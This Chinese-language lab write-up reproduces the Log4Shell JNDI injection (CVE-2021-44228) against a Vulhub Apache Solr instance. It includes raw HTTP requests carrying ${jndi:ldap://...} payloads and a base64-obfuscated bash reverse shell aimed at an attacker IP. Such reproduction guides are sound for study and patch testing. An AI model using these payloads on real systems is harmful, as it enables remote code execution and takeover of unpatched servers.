






Apache Log4j2 lookup JNDI 注入漏洞 CVE-2021-44228¶
漏洞描述¶
Apache Log4j2 是Java语言的日志处理套件，使用极为广泛。在其2.0到2.14.1版本中存在一处JNDI注入漏洞，攻击者在可以控制日志内容的情况下，通过传入类似于${jndi:ldap://evil.com/example}的lookup用于进行JNDI注入，执行任意代码。
CVE-2021-44228常被称为log4shell。
参考链接：
- https://logging.apache.org/log4j/2.x/security.html
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://xz.aliyun.com/t/10649
Payloads：
环境搭建¶
Apache Log4j2 不是一个特定的Web服务，而仅仅是一个第三方库，我们可以通过找到一些使用了这个库的应用来复现这个漏洞，比如Apache Solr。
Vulhub执行如下命令启动一个Apache Solr 8.11.0，其依赖了Log4j 2.14.1：
docker-compose up -d
服务启动后，访问http://your-ip:8983即可查看到Apache Solr的后台页面。
漏洞复现¶
${jndi:ldap://${sys:java.version}.example.com}是利用JNDI发送DNS请求的Payload，我们将其作为管理员接口的action参数值发送如下数据包：
GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.example.com} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close

我们可以在DNS日志平台收到相关日志，显示出当前Java版本：

实际利用JNDI注入漏洞，可以使用这个“工具。

利用完毕后，可见touch /tmp/awesome_poc已经成功被执行：

反弹shell¶
构造反弹shell命令：
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=}|{base64,-d}|{bash,-i}

构造Payload：
GET /solr/admin/cores?action=${jndi:ldap://192.168.174.128:1389/chof5b} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
监听9999端口，接收反弹shell：
